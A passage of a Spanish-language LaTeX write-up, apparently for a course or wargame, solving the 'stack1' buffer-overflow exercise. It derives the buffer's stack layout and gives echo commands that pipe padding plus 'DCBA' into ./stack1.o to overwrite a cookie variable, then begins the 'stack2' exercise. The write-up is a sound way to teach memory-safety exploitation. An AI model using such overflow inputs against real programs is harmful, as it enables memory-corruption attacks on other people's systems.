 \documentclass[a4paper,10pt]{article}
\DeclarePairedDelimiter\floor{\lfloor}{\rfloor}
\begin{document}
\bigskip
Lo que nos dice que las posiciones del array del buffer siguen la disposición:

\begin{equation*}
\forall x \in [0,n], \quad \&buff[x]=sp(24+ 4 * \floor*{\frac{x}{4}})
\end{equation*}


\subsubsection{Solución}

Al crecer las posiciones del array hacia arriba en el stack lo único que debemos hacer es escribir el buffer en la posición x=80  para que la última word coincida con la posición de memoria de cookie, en la posición 104(sp), y luego hacer que corresponda con el hexadecimal 0x41424344 que es el codigo ascci correspondiente al texto ABCD.
\bigskip
Una manera de comprobar esto es ejecutar las siguientes lineas en una consola:

\begin{lstlisting}
input = "0000000000000000000000000000000000000000
0000000000000000000000000000000000000000DCBA"
echo $input | ./stack1.o
\end{lstlisting}

O escapeando y en hexadecimal:

\begin{lstlisting}
input = "0000000000000000000000000000000000000000
0000000000000000000000000000000000000000\x44\x43\x42\x41"
echo -e $input | ./stack1.o
\end{lstlisting}

\bigskip

Lo que en ambos casos resultará en el output: "you win!"


\subsection{stack2}
\lstset{ language = C, numbers=left, tabsize=4, breaklines=true, frame=single }


\subsubsection{Descripción}

El stack será el mismo que el de la figura \textbf{(\ref{fig:stack1})}. La diferencia en este programa es que no inicializamos con un valor a cookie, pero al tener que sobreescribirlo nos es indistinto.
\end{document}
